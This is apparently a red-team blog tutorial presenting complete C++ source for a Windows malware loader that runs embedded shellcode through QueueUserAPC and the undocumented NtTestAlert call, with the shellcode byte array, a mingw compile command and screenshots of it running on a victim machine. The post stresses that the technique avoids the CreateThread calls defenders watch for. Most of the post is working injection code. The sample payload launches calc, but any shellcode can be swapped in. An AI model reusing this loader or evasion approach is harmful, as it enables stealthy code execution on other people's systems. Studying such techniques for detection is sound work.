 ```yaml
---
title:  "APC injection via NtTestAlert. Simple C++ malware."
date:   2021-11-20 10:00:00 +0600
header:
  teaser: "/assets/images/22/2021-11-21_13-18.png"
categories:
  - tutorial
tags:
  - APC injection
  - windows
  - malware
  - red team
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![APC injection](/assets/images/22/2021-11-21_13-18.png){:class="img-responsive"}    

This post is a Proof of Concept and is for educational purposes only.   
Author takes no responsibility of any damage you cause.      

In [last](/tutorial/2021/11/11/malware-injection-3.html) post I wrote about "Early Bird" APC injection technique.     

Today I will discuss about another APC injection technique. Its meaning is that we are using an undocumented function `NtTestAlert`. So let's go to show how to execute shellcode within a local process by leveraging a Win32 API `QueueUserAPC` and an officially undocumented Native API `NtTestAlert`.    

### NtTestAlert

**NtTestAlert** is a system call that’s related to the alerts mechanism of Windows. This system call can cause execution of any pending APCs the thread has. Before a thread starts executing it's Win32 start address it calls `NtTestAlert` to execute any pending APCs.    

### example

Let's take a look at our C++ source code of our malware:    
```cpp
/*
hack.cpp
APC code injection via undocumented NtTestAlert
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/11/20/malware-injection-4.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

#pragma comment(lib, "ntdll")
using myNtTestAlert = NTSTATUS(NTAPI*)();

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

int main(int argc, char* argv[]) {
  SIZE_T my_payload_len = sizeof(my_payload);
  HMODULE hNtdll = GetModuleHandleA("ntdll");
  myNtTestAlert testAlert = (myNtTestAlert)(GetProcAddress(hNtdll, "NtTestAlert"));

  LPVOID my_payload_mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(GetCurrentProcess(), my_payload_mem, my_payload, my_payload_len, NULL);

  PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)my_payload_mem;
  QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
  testAlert();

  return 0;
}
```

For simplicity, we use 64-bit `calc.exe` as the payload.    

The flow of this technique is simple. Firstly, we allocate memory in the local process for our payload:    

![APC injection 1](/assets/images/22/2021-11-21_13-49.png){:class="img-responsive"}    

Then write our payload to newly allocated memory:    

![APC injection 2](/assets/images/22/2021-11-21_13-50.png){:class="img-responsive"}    

Then queue an APC to the current thread:    

![APC injection 3](/assets/images/22/2021-11-21_13-52.png){:class="img-responsive"}    

Finally, call `NtTestAlert`:    

![APC injection 4](/assets/images/22/2021-11-21_13-53.png){:class="img-responsive"}    

Let's go to compile our code:   
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![APC injection 5](/assets/images/22/2021-11-21_13-58.png){:class="img-responsive"}    

And run on victim machine (Windows 7 x64 in my case):   

![APC injection 6](/assets/images/22/2021-11-21_14-03.png){:class="img-responsive"}    

And If open our `hack.exe` malware in `Ghidra`:

![APC injection 7](/assets/images/22/2021-11-21_15-12.png){:class="img-responsive"}    

the `NtTestAlert` function call is not suspicious. So the advantage of this technique is that it does not rely on `CreateThread` or `CreateRemoteThread` API calls which are more popular and suspicious and which is more closely investigated by the blue teamers.   

[APC MSDN](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)         
[QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)          
[VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)      
[GetModuleHandleA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)    
[APC technique MITRE ATT&CK](https://attack.mitre.org/techniques/T1055/004/)    
[NTAPI Undocumented Functions - NtTestAlert](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FAPC%2FNtTestAlert.html)    
[Ghidra - NSA](https://github.com/NationalSecurityAgency/ghidra/)    
[Source Code in Github](https://github.com/cocomelonc/2021-11-20-injection-4)    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

Thanks for your time and good bye!   
*PS. All drawings and screenshots are mine*
